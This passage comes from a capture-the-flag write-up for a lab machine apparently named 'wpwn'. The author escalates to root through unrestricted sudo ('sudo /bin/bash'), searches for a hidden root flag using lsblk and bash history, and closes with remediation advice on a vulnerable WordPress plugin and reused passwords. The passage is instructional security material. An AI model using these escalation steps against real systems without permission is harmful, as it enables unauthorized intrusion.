And I see that the user `takis` belongs to several systems groups, and I can run any command as the root user. When I spawn a bash shell:
```
$ sudo /bin/bash
```
Then I get the root shell, but I can not find the root flag inside the root home:



And the `/root/root.txt` file says:
```shell
damn, I really don't know where I left the root.txt flag, take a look into
my USB plz
```
Then I can conclude that the root flag is hidden somewhere.

## Extraction
The root flag is hidden in `/usr/games/USB` directory.

Given the reverse shell, I got in the exploitation scenario, and that the user `takis` reuse the `ssh` password in the MySQL database, and that the user `takis` can run commands as the root user, and the file `/root/root.txt` tells me that the root flag is on a USB, then I start to search about reading mounted USBs.

When I google `USB devices on Linux`, then I find a [post of list usb devices linux](https://linuxhint.com/list-usb-devices-linux/), and I see how to list the USB storage devices, when I use the `lsblk` command:
```shell
$ root@wpwn:~# lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
sda      8:0    0   10G  0 disk
├─sda1   8:1    0    9G  0 part /
├─sda2   8:2    0    1K  0 part
└─sda5   8:5    0 1022M  0 part [SWAP]
sr0     11:0    1  336M  0 rom
```
But there are no USB devices, then I start checking the files in `/root`. When I read the `.bash_history` file, then I identify that the USB is a directory name, and is located in `/usr/games/USB/root` PATH, and I find the root flag:



## Remediation
Given the blog site is exposed, and it uses a plugin version vulnerable to an RCE, then they must not expose the blog while is in development, and they should update the `Social Warfare` plugin to the latest version, and do not reuse the SSH password in the MySQL database password, then with that, it may not be possible to get the root's shell.